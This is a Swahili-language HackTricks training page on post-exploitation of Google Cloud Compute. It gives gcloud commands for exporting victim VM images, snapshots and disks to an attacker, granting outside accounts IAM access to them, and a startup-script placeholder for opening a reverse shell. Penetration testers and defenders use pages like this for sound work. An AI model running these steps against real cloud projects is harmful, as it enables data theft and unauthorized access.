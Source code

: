 # GCP - Compute Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## Compute

Kwa maelezo zaidi kuhusu Compute na VPC (Networking) angalia:

{{#ref}}
../gcp-services/gcp-compute-instances-enum/
{{#endref}}

### Export & Inspect Images locally

Hii itamruhusu mshambuliaji **kupata data iliyo ndani ya picha zilizopo tayari** au **kuunda picha mpya za VMs zinazofanya kazi** na kupata data zao bila kuwa na ufikiaji wa VM inayofanya kazi.

Inawezekana kusafirisha picha ya VM hadi kwenye bucket kisha kuipakua na kuimount locally kwa amri:
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
Kabla ya kufanya kitendo hiki, mshambuliaji anaweza kuhitaji mamlaka juu ya storage bucket na bila shaka **mamlaka juu ya cloudbuild** kwani ndiyo **huduma** itakayohitajika kufanya usafirishaji.\
Zaidi ya hayo, ili hii ifanye kazi, codebuild SA na compute SA zinahitaji ruhusa za mamlaka.\
cloudbuild SA `<project-id>@cloudbuild.gserviceaccount.com` inahitaji:

- roles/iam.serviceAccountTokenCreator
- roles/compute.admin
- roles/iam.serviceAccountUser

Na SA `<project-id>-compute@developer.gserviceaccount.com` inahitaji:

- roles/compute.storageAdmin
- roles/storage.objectAdmin

### Usafirishaji & Ukaguzi wa Snapshots & Diski kwa Mitaa

Haiwezekani kusafirisha moja kwa moja snapshots na diski, lakini inawezekana **kubadilisha snapshot kuwa diski, diski kuwa picha** na kufuata **sehemu ya awali**, kusafirisha picha hiyo ili kuikagua kwa ndani.
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
### Inspect an Image creating a VM

Kwa lengo la kufikia **data iliyohifadhiwa katika picha** au ndani ya **VM inayotembea** kutoka mahali ambapo mshambuliaji **ameunda picha,** inawezekana kutoa akaunti ya nje ufikiaji juu ya picha:
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
na kisha uunde VM mpya kutoka kwake:
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
Ikiwa huwezi kutoa ufikiaji wa akaunti yako ya nje kupitia picha, unaweza kuzindua VM ukitumia picha hiyo katika mradi wa waathirika na **kufanya metadata itekeleze shell ya kinyume** ili kufikia picha hiyo kwa kuongeza param:
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### Kagua Snapshot/Diski kwa kuunganisha na VM

Kwa lengo la kufikia **data iliyohifadhiwa kwenye diski au snapshot, unaweza kubadilisha snapshot kuwa diski, diski kuwa picha na kufuata hatua za awali.**

Au unaweza **kutoa akaunti ya nje ufikiaji** juu ya diski (ikiwa hatua ya kuanzia ni snapshot toa ufikiaji juu ya snapshot au unda diski kutoka kwake):
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**Unganisha diski** kwa mfano:
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
Mount diski ndani ya VM:

1.  **SSH ndani ya VM**:

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```

2.  **Tambua Diski**: Mara baada ya kuingia ndani ya VM, tambua diski mpya kwa kuorodhesha vifaa vya diski. Kawaida, unaweza kuipata kama `/dev/sdb`, `/dev/sdc`, n.k.
3.  **Fanya Format na Mount Diski** (ikiwa ni diski mpya au ya raw):

- Unda mahali pa ku-mount:

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```

- Mount diski:

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

Ikiwa huwezi kutoa ufikiaji kwa mradi wa nje kwa snapshot au diski, huenda ukahitaji **kufanya hatua hizi ndani ya mfano katika mradi sawa na snapshot/diski**.

{{#include ../../../banners/hacktricks-training.md}}
